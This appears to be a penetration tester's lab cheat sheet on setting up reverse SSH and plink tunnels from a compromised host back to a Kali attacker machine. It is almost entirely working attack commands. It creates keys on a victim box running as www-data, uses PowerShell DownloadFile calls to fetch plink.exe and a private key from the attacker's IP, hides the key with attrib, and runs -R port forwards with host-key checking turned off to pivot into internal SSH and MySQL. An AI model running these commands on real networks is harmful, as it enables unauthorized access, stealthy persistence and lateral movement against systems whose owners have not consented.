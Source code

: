 ###########################################
#Protected REVERSE SSH session w/ PrivKeys#
###########################################

//RemoteBox
mkdir /tmp/gh05t
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/var/www/.ssh/id_rsa): /tmp/gh05t/id_rsa

chmod 600 /tmp/gh05t/id_rsa

cat /tmp/gh05t/id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDYYt8xuDbUK1fWFggavy7byn+PedA9uXc3QT0qloGzxluUqXIQz98jevDWd3hYSougfIh0zkF5YruXx6Yp1k7qvECaqNxh+YrRDxl8dnmESilxlu+Ar4wSWmEfGBtdy9FCFYwElQpikchAwBDvcw2a20t2C7/xYBcWZWiWgIldSpB+88nIEx6Gv+XdEYuD7zs5CGGF0+3scOnCBdDc8AhGt0Q5JitUucrStzZRZsiV03Zeb2bkHpeU6K8G1m1a8W+FgINKFo09l5w1SVGyPr/IT04OPNjoOpkJ9T75A/tmUZLsg7L2ycBJ1++VLbdNZTMAqMASTzsFjl4N1LC3Gz8T www-data@ajla

#Copy over private key to remote host

//LocalBox (~/.ssh/authorized_keys)
//vim ~/.ssh/authorized_keys
from="10.11.1.250",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDYYt8xuDbUK1fWFggavy7byn+PedA9uXc3QT0qloGzxluUqXIQz98jevDWd3hYSougfIh0zkF5YruXx6Yp1k7qvECaqNxh+YrRDxl8dnmESilxlu+Ar4wSWmEfGBtdy9FCFYwElQpikchAwBDvcw2a20t2C7/xYBcWZWiWgIldSpB+88nIEx6Gv+XdEYuD7zs5CGGF0+3scOnCBdDc8AhGt0Q5JitUucrStzZRZsiV03Zeb2bkHpeU6K8G1m1a8W+FgINKFo09l5w1SVGyPr/IT04OPNjoOpkJ9T75A/tmUZLsg7L2ycBJ1++VLbdNZTMAqMASTzsFjl4N1LC3Gz8T www-data@ajla

 
//Connect to Local from Remote
ssh -Nf -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/dupes/id_rsa kali@192.168.119.250 -R 2222:10.5.5.11:22 -R 3333:10.5.5.11:3306

##########################################################################################

#############################################
#Protected REVERSE plink session w/ PrivKeys#
#############################################
#Need the latests plink for the newer authentication
wget https://the.earth.li/~sgtatham/putty/latest/w32/plink.exe
wget https://the.earth.li/~sgtatham/putty/latest/w32/puttygen.exe

wine puttygen.exe

cat id_rsa.pub
---- BEGIN SSH2 PUBLIC KEY ----
Comment: "rsa-key-20221021"
AAAAB3NzaC1yc2EAAAADAQABAAABAQDl+8x/jV6goZMcZbK2+kce2IjOnr1mYi29
u9Y67pSly20P8GZin0gnkvfTfXZCO79MXjLsmPI0jFRE9eCy4zndfXMzf25Y7UfP
RjoowY03lLoqG9lJ+jrTSN2AjIzb1TtDTDDs5Gg+EGkkSz0YByEnCa6vvxlYl9V7
/tlc4SQFTYkckONpZWwBmLB1a+bAizcgvifqXN0paZG9odMFWrXp/WZlGbtNCgM/
OGw3Ilzb9xKH9Zlwf+luMvKWehdx/SOD1IXS+2hSLvPAkAtknsN3vgCkDDgKbZDs
unaEJWQ62Uqy7kLYm91UZWJcfhX9ifRTZdVO63DOtsMMWgk8Bw6P
---- END SSH2 PUBLIC KEY ----


#Need to fix the plink format for SSH
vim id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDl+8x/jV6goZMcZbK2+kce2IjOnr1mYi29u9Y67pSly20P8GZin0gnkvfTfXZCO79MXjLsmPI0jFRE9eCy4zndfXMzf25Y7UfPRjoowY03lLoqG9lJ+jrTSN2AjIzb1TtDTDDs5Gg+EGkkSz0YByEnCa6vvxlYl9V7/tlc4SQFTYkckONpZWwBmLB1a+bAizcgvifqXN0paZG9odMFWrXp/WZlGbtNCgM/OGw3Ilzb9xKH9Zlwf+luMvKWehdx/SOD1IXS+2hSLvPAkAtknsN3vgCkDDgKbZDsunaEJWQ62Uqy7kLYm91UZWJcfhX9ifRTZdVO63DOtsMMWgk8Bw6P kali@kali

//LocalBox (~/.ssh/authorized_keys)
//vim ~/.ssh/authorized_keys
//Having these declarations in the the authorized_keys file locks down the connection.
from="10.11.1.250",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD1+8x/jV6goZMcZbK2+kce2IjOnr1mYi29u9Y67pSly20P8GZin0gnkvfTfXZCO79MXjLsmPI0jFRE9eCy4zndfXMzf25Y7UfPRjoowY03lLoqG9lJ+jrTSN2AjIzb1TtDTDDs5Gg+EGkkSz0YByEnCa6vvxlYl9V7/tlc4SQFTYkckONpZWwBmLB1a+bAizcgvifqXN0paZG9odMFWrXp/WZlGbtNCgM/OGw3Ilzb9xKH9Zlwf+luMvKWehdx/SOD1IXS+2hSLvPAkAtknsN3vgCkDDgKbZDsunaEJWQ62Uqy7kLYm91UZWJcfhX9ifRTZdVO63DOtsMMWgk8Bw6P kali@kali

#Copy over plink/privatekey to remote host
(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.187:80/plink.exe', 'C:\Users\Bethany\plink.exe')
(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.187:80/id_rsa.ppk', 'C:\Users\Bethany\id_rsa.ppk')

#Make the private key hidden
attrib +S +H id_rsa

//Connect
echo y |.\plink.exe -ssh -N -i id_rsa.ppk kali@192.168.119.187 -R 127.0.0.1:6969:127.0.0.1:80

##########################################################################################

#/etc/ssh/sshd_config
//These settings are required to tunnel properly

PermitRootLogin no
StrictModes no
RSAAuthentication yes
PubkeyAuthentication yes
AuthorizedKeysFile      .ssh/authorized_keys
PasswordAuthentication no
KbdInteractiveAuthentication no
UsePAM yes
AllowTcpForwarding yes
GatewayPorts yes
PermitTunnel yes
